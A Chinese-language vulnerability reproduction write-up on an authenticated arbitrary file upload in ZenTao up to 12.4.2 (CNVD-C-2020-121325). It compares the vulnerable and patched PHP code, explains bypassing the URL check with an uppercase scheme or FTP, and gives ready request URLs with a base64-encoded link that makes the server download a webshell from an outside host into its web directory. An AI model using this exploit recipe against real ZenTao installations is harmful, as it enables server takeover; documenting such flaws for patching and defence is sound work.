




# 禅道 12.4.2 后台任意文件上传漏洞 CNVD-C-2020-121325

## 漏洞描述

百度云安全团队监测到禅道官方发布了文件上传漏洞的风险通告，该漏洞编号为CNVD-C-2020-121325，漏洞影响禅道<=12.4.2版本。登陆管理后台的恶意攻击者可以通过fopen/fread/fwrite方法读取或上传任意文件，成功利用此漏洞可以读取目标系统敏感文件或获得系统管理权限。我们对漏洞进行了复现和分析，由于需要登录后台才可以利用，实际风险相对较低，建议受影响的禅道用户尽快升级到最新版。

## 影响版本

<a-checkbox checked>禅道 <= 12.4.2版本</a-checkbox></br>

## 环境搭建


调用接口查询版本信息


```plain
  http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```


## 漏洞复现

- ✅漏洞触发需要后台权限


根据漏洞描述查看修改后的代码片段


`修改前`


```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```


`修改后`


```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```


这里传入的参数为版本和link地址，然后base64解码，正则判断是否为`http`或`https`协议，这里的正则过滤并不完整，所以可以绕过用于下载恶意文件


可以大写`http`或请求`FTP`来绕过正则





跟进一下`parent::downloadZipPackage`这个方法，跟着来到`zentao\module\client\model.php`文件中


```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```


可以简单看到这里获取link传入的文件名，通过`fopen`打开该文件，写入禅道目录`www/data/client/version`中


查看一下有没有调用这个方法的地方





找到了`download`方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法


```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```


首先先上传一个恶意文件，可以是FTP也可以是HTTP


例如我上传的文件URL为[`http://peiqi.tech/SHELL.php`](http://peiqi.tech/SHELL.php)


```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```


请求地址则为


```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```


下载的目录地址为`zentaopms\www\data\client\1`


 

目录为version名称





成功上传webshell





## 